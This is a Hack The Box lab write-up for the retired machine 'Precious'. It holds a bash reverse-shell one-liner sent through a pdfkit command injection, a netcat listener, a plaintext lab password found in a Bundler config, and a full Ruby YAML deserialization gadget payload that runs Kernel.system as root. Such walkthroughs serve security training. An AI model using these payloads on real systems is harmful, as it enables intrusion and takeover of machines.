


# Hack The Box - Precious



Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Precious**. This machine starts with a Ruby web app that converts pages to PDF, then uses a `pdfkit` command injection to get an initial shell. From there, plaintext credentials in a Bundler config file lead to the next user, and an insecure YAML deserialization bug in a sudo-allowed Ruby script gives root.

## Reconnaissance

I started with a full port scan to identify exposed services.

```bash
nmap -sV -sC -Pn -T4 -oA precious -p- -v precious.htb
```

The scan showed SSH and HTTP:

```text
22/tcp open  ssh  OpenSSH 8.4p1 Debian 5+deb11u1
80/tcp open  http  nginx 1.18.0
```

The web server was backed by Phusion Passenger and presented a page for converting web pages to PDF.



## Initial Access

### PDF Generation

The site accepted a URL and generated a PDF from it. I first checked the generated PDF metadata with `exiftool` and saw that it was created by:

```text
pdfkit v0.8.6
```

That immediately pointed to [CVE-2022-25765], a command injection issue in pdfkit.

### Command Injection

I used a public proof of concept https://github.com/LordRNA/CVE-2022-25765 and passed a reverse shell command through the URL parameter.

```bash
python poc.py -u http://precious.htb -c "bash -c 'bash -i >& /dev/tcp/10.10.14.10/1111 0>&1'"
```

With a listener running:

```bash
rlwrap nc -lvnp 1111
```

I got a shell as `ruby`.

## User Escalation

### Plaintext Credentials

Enumerating the Ruby user’s home directory uncovered Bundler configuration containing credentials for `henry`.

```text
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

I used those credentials to switch users:

```bash
su - henry
```

That gave me access to `user.txt`.

## Privilege Escalation

### Sudo Ruby Script

Checking sudo rights showed that `henry` could run a Ruby script as root:

```text
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Reviewing the script showed it used `YAML.load`, which is unsafe and vulnerable to deserialization attacks.

The script reads a local `dependencies.yml` file and compares Ruby gem versions. Since `YAML.load` was used without restrictions, I could replace that file with a malicious YAML payload that triggers code execution https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md.

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash -i
         method_id: :resolve                             
```

### YAML Deserialization

I used a Ruby deserialization payload that invokes `Kernel.system`. One common approach is to make the payload execute a shell command such as:

```bash
/bin/bash -i
```

or set the SUID bit on `/bin/bash` and later use `bash -p`.

After placing the crafted `dependencies.yml` in the right location, I ran:

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

That executed my payload as root and gave me a root shell.

From there I read `/root/root.txt`.

## Attack Path

- **Scan the host** — identify SSH and HTTP.
- **Inspect the app** — discover a Ruby PDF conversion service.
- **Exploit pdfkit** — use [CVE-2022-25765] to get a shell as `ruby`.
- **Find plaintext credentials** — recover Henry’s password from Bundler config.
- **Switch to henry** — log in with the recovered password.
- **Check sudo rights** — find the allowed Ruby maintenance script.
- **Abuse YAML.load** — craft a malicious deserialization payload.
- **Execute as root** — run the script through sudo and capture the final flag.
